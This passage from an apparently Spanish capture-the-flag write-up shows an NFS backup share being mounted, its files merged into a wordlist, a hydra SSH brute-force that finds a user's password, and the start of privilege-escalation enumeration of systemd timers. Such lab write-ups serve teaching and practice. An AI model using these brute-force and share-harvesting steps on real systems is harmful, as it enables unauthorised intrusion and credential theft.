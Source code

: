 ~~~bash
❯ sudo mount 192.168.1.35:/var/backups /home/kaian/labs/backups
[sudo] contraseña para kaian: 
❯ su pepito
Contraseña: 
$ bash
pepito@kali:/home/kaian/labs$ cat backups/*.txt >> /tmp/list
pepito@kali:/home/kaian/labs$ exit 
exit
$ exit
❯ proxychains hydra -l melville -P /tmp/list 192.168.1.35 -s 345 ssh -F 2>/dev/null
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-29 02:07:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1001 login tries (l:1/p:1001), ~63 tries per task
[DATA] attacking ssh://192.168.1.35:345/
[345][ssh] host: 192.168.1.35   login: melville   password: 1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXc
[STATUS] attack finished for 192.168.1.35 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-29 02:08:09
~~~


## Escalada de privilegios

Ya tenemos la contraseña, así que nos convertimos en Melville y continuamos:

~~~bash
melville@principle2:~$ find / -name *.timer 2>/dev/null
/etc/systemd/system/timers.target.wants/e2scrub_all.timer
/etc/systemd/system/timers.target.wants/man-db.timer
/etc/systemd/system/timers.target.wants/apt-daily-upgrade.timer
/etc/systemd/system/timers.target.wants/logrotate.timer
/etc/systemd/system/timers.target.wants/apt-daily.timer
/etc/systemd/system/timers.target.wants/phpsessionclean.timer
/etc/systemd/system/timers.target.wants/fstrim.timer
/etc/systemd/system/timers.target.wants/activity.timer
/etc/systemd/system/timers.target.wants/dpkg-db-backup.timer
/etc/systemd/system/activity.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/e2scrub_all.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/man-db.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/apt-daily-upgrade.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/logrotate.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/apt-daily.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/phpsessionclean.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/fstrim.timer
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/dpkg-db-backup.timer
/var/lib/systemd/timers/stamp-phpsessionclean.timer
/var/lib/systemd/timers/stamp-apt-daily-upgrade.timer
/var/lib/systemd/timers/stamp-fstrim.timer
/var/lib/systemd/timers/stamp-e2scrub_all.timer
/var/lib/systemd/timers/stamp-logrotate.timer
/var/lib/systemd/timers/stamp-man-db.timer
/var/lib/systemd/timers/stamp-apt-daily.timer
/usr/lib/systemd/user/systemd-tmpfiles-clean.timer
/usr/lib/systemd/system/timers.target.wants/systemd-tmpfiles-clean.timer
/usr/lib/systemd/system/e2scrub_all.timer
/usr/lib/systemd/system/man-db.timer
/usr/lib/systemd/system/apt-daily-upgrade.timer
/usr/lib/systemd/system/logrotate.timer
/usr/lib/systemd/system/systemd-tmpfiles-clean.timer
/usr/lib/systemd/system/apt-daily.timer
~~~